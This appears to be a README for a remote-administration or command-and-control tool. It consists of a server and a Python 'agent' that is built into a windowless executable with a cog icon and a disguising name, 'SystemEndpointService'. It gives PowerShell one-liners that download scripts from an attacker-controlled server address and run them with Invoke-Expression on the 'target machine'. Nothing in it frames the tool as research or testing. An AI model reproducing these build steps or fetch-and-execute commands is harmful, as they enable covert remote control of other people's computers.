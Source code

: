 



## Installation
Clone the repository and then install virtual environment:
```bash
python3 -m venv venv
```
Next, activate virtual environment:
```bash
source venv/bin/activate  # On macOS/Linux
venv\Scripts\activate     # On Windows
```
Then, install all the required packages:
```bash
pip install -r requirements.txt
```

## Server
You should include 3 JSON files in /server directory: agents.json, commands_output.json, commands.json

Run the server:
```bash
python server/server.py
```

## Agent
### Run agent from python file
```bash
python agent/agent.py
```
### Install EXE
```bash
pyinstaller --onefile --noconsole --icon=cog.ico agent.py
```

### Install EXE (with a different name)
```bash
pyinstaller --onefile --noconsole --icon=cog.ico --name=ExeName agent.py
```

### Install EXE (with a name + a custom version file)
```bash
pyinstaller --onefile --noconsole --icon=cog.ico --name=ExeName --version-file=version.txt agent.py
```

## Custom powershell script usage:

To run custom powershell scripts on target machine (Agent), you can execute this command:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://[SERVER_IP]:5000/static/scripts/script.ps1").Content) )
```

Change wallpaper to cat image:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://[SERVER_IP]:5000/static/scripts/wallpaper.ps1").Content) )
```

ELİnen duzeltdiyimz (exe duzelden):
```
python -m PyInstaller --onefile --noconsole --icon=cog.ico --name=SystemEndpointService agent.py
```
